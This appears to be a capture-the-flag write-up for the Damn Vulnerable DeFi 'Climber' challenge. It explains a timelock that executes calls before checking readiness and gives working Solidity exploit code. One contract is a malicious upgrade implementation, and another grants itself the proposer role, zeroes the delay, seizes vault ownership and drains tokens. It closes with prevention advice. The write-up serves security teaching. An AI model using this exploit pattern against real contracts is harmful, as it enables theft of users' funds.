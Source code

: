 # Climber

There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the [UUPS pattern](https://eips.ethereum.org/EIPS/eip-1822).

The owner of the vault is a timelock contract. It can withdraw a limited amount of tokens every 15 days.

On the vault there's an additional role with powers to sweep all tokens in case of an emergency.

On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.

You must rescue all tokens from the vault and deposit them into the designated recovery account.

## Vulnerability

The vulnerability exists in the `ClimberTimelock` contract's `execute` function. The function executes operations BEFORE checking if they are ready for execution:

```solidity
function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt) {
    // ... validation checks ...
    
    for (uint8 i = 0; i < targets.length; ++i) {
        targets[i].functionCallWithValue(dataElements[i], values[i]);  // Executes first
    }

    if (getOperationState(id) != OperationState.ReadyForExecution) {  // Checks after execution
        revert NotReadyForExecution(id);
    }
    // ...
}
```

This means that any operation can be executed immediately without waiting for the timelock delay, as long as it's scheduled in the same transaction.

## Solution

The solution involves creating an attacker contract that:

1. Gets the PROPOSER_ROLE from the timelock
2. Sets the delay to 0
3. Transfers vault ownership to itself
4. Schedules the operation (which will execute immediately due to 0 delay)
5. Upgrades the vault to a malicious implementation
6. Drains the funds

The attack works because:
- The timelock executes operations before checking if they're ready
- The timelock has ADMIN_ROLE and can grant PROPOSER_ROLE
- The timelock is the owner of the vault and can transfer ownership
- The vault is upgradeable using the UUPS pattern

## Proof of Concept

Here's the detailed implementation of the attack:

1. First, we create a malicious vault implementation that will allow us to drain funds:
```solidity
contract MaliciousVault is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {
        _disableInitializers();
    }

    function drainFunds(address token, address receiver) external {
        SafeTransferLib.safeTransfer(token, receiver, IERC20(token).balanceOf(address(this)));
    }

    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}
```

2. Then, we create an attacker contract to orchestrate the attack:
```solidity
contract Attacker {
    ClimberVault vault;
    ClimberTimelock timelock;
    DamnValuableToken token;
    address recovery;
    address[] targets = new address[](4);
    uint256[] values = new uint256[](4);
    bytes[] dataElements = new bytes[](4);

    constructor(
        ClimberVault _vault,
        ClimberTimelock _timelock,
        DamnValuableToken _token,
        address _recovery
    ) {
        vault = _vault;
        timelock = _timelock;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        // Deploy malicious implementation
        address maliciousImpl = address(new MaliciousVault());

        // Prepare the attack operations
        bytes memory grantRoleData = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            keccak256("PROPOSER_ROLE"),
            address(this)
        );

        bytes memory changeDelayData = abi.encodeWithSignature(
            "updateDelay(uint64)",
            uint64(0)
        );

        bytes memory transferOwnershipData = abi.encodeWithSignature(
            "transferOwnership(address)",
            address(this)
        );

        bytes memory scheduleData = abi.encodeWithSignature(
            "timelockSchedule()"
        );
    
        // Set up the targets and their data
        targets[0] = address(timelock);
        values[0] = 0;
        dataElements[0] = grantRoleData;

        targets[1] = address(timelock);
        values[1] = 0;
        dataElements[1] = changeDelayData;

        targets[2] = address(vault);
        values[2] = 0;
        dataElements[2] = transferOwnershipData;

        targets[3] = address(this);
        values[3] = 0;
        dataElements[3] = scheduleData;

        // Execute the attack
        timelock.execute(
            targets,
            values,
            dataElements,
            bytes32(0)
        );

        // Upgrade and drain
        vault.upgradeToAndCall(address(maliciousImpl), "");
        MaliciousVault(address(vault)).drainFunds(address(token), recovery);
    }

    function timelockSchedule() external {
        timelock.schedule(targets, values, dataElements, bytes32(0));
    }
}
```

3. The attack sequence:
   - Deploy the malicious vault implementation
   - Prepare the attack operations:
     1. Grant PROPOSER_ROLE to the attacker
     2. Set timelock delay to 0
     3. Transfer vault ownership to attacker
     4. Schedule the operation (which will execute immediately)
   - Execute the operations through the timelock
   - Upgrade the vault to the malicious implementation
   - Drain all funds to the recovery address

4. The attack succeeds because:
   - The timelock executes operations before checking if they're ready
   - The attacker gets PROPOSER_ROLE and can schedule operations
   - The delay is set to 0, allowing immediate execution
   - The attacker becomes the vault owner and can upgrade it
   - The malicious implementation allows draining funds without sweeper role

## Prevention

To prevent this vulnerability:
1. Check operation state BEFORE executing operations
2. Don't allow self-administration of the timelock
3. Add proper scheduling verification in the execute function
4. Consider using a more secure timelock implementation like OpenZeppelin's TimelockController

## Files
- `ClimberVault.sol`: The upgradeable vault contract
- `ClimberTimelock.sol`: The vulnerable timelock contract
- `ClimberTimelockBase.sol`: Base contract for the timelock
- `ClimberConstants.sol`: Constants used in the contracts
- `ClimberErrors.sol`: Custom errors used in the contracts
